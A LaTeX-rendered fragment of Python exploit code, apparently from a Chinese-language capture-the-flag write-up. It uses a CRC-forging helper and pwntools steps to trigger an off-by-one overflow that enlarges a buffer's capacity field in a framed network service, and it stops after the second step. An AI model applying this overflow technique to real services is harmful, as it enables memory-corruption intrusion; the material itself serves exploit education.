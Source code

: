 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\BuiltInTok}[1]{#1}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\ControlFlowTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\KeywordTok}[1]{\textcolor[rgb]{0.13,0.29,0.53}{\textbf{#1}}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\PreprocessorTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\begin{document}
\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{def}\NormalTok{ solve\_crc\_byte(payload, want):    }\CommentTok{\# 讓 CRC 等於想要的 byte（off{-}by{-}one 的關鍵）}
    \ControlFlowTok{for}\NormalTok{ v }\KeywordTok{in} \BuiltInTok{range}\NormalTok{(}\DecValTok{256}\NormalTok{):}
\NormalTok{        payload[}\DecValTok{1}\NormalTok{] }\OperatorTok{=}\NormalTok{ v}
        \ControlFlowTok{if}\NormalTok{ crc8(}\BuiltInTok{bytes}\NormalTok{(payload)) }\OperatorTok{==}\NormalTok{ want:}
            \ControlFlowTok{return}\NormalTok{ v}
    \ControlFlowTok{raise} \PreprocessorTok{RuntimeError}\NormalTok{(}\StringTok{\textquotesingle{}no crc solution\textquotesingle{}}\NormalTok{)}
\end{Highlighting}
\end{Shaded}

主流程：

\begin{Shaded}
\begin{Highlighting}[]
\CommentTok{\# 0) 吃掉橫幅（尾端有兩個 \textquotesingle{}\textbackslash{}n\textquotesingle{}）}
\NormalTok{io.recvuntil(}\StringTok{b\textquotesingle{}\textless{}\textless{}}\CharTok{\textbackslash{}n}\StringTok{\textquotesingle{}}\NormalTok{)}\OperatorTok{;}\NormalTok{ io.recvn(}\DecValTok{1}\NormalTok{)}

\CommentTok{\# 1) AUTH：opcode 1 + magic（大端序）→ capacity = 0x100}
\NormalTok{io.send(frame(}\BuiltInTok{bytes}\NormalTok{([OP\_AUTH]) }\OperatorTok{+}\NormalTok{ p32(MAGIC, endian}\OperatorTok{=}\StringTok{\textquotesingle{}big\textquotesingle{}}\NormalTok{)))}
\NormalTok{st, \_ }\OperatorTok{=}\NormalTok{ recv\_frame(io)}\OperatorTok{;} \ControlFlowTok{assert}\NormalTok{ st }\OperatorTok{==} \DecValTok{0}

\CommentTok{\# 2) APPEND\#1：L = 0x101 → n = 0x100 = capacity 通過檢查，但寫了 0x101 bytes，}
\CommentTok{\#    最後一個 byte（= 訊框 CRC）落在 state[0x100] → capacity = 0x01ff}
\NormalTok{pl }\OperatorTok{=} \BuiltInTok{bytearray}\NormalTok{(}\StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x02}\StringTok{\textquotesingle{}} \OperatorTok{+} \StringTok{b\textquotesingle{}A\textquotesingle{}} \OperatorTok{*} \BaseNTok{0x100}\NormalTok{)}
\NormalTok{pl[}\DecValTok{1}\NormalTok{] }\OperatorTok{=}\NormalTok{ solve\_crc\_byte(pl, }\BaseNTok{0xff}\NormalTok{)}
\NormalTok{io.send(frame(}\BuiltInTok{bytes}\NormalTok{(pl)))}
\NormalTok{st, \_ }\OperatorTok{=}\NormalTok{ recv\_frame(io)}\OperatorTok{;} \ControlFlowTok{assert}\NormalTok{ st }\OperatorTok{==} \DecValTok{0}


\end{Highlighting}
\end{Shaded}
\end{document}
